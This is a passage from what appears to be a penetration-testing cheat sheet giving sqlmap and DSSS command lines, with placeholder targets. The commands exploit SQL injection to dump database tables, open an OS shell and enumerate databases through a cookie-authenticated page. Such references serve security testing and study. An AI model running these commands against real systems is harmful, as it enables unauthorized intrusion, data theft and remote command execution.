 ##### Retrieve the rows in a table

```sh
sqlmap -u "[HOST]" --cookie="[COOKIE]" -D [DATABASE] -T [TABLE] --dump
```

##### Getting a shell

```sh
sqlmap -u "[HOST]" --cookie="[COOKIE]" --os-shell
```

#### Using DSSS

##### SQL Injection in a page using a cookie, retrieve databases

```sh
python3 dsss.py -u "[HOST]" --cookie="[COOKIE]"
```
-u: Specifies the target URL.

--cookie: Specifies the HTTP cookie header value.


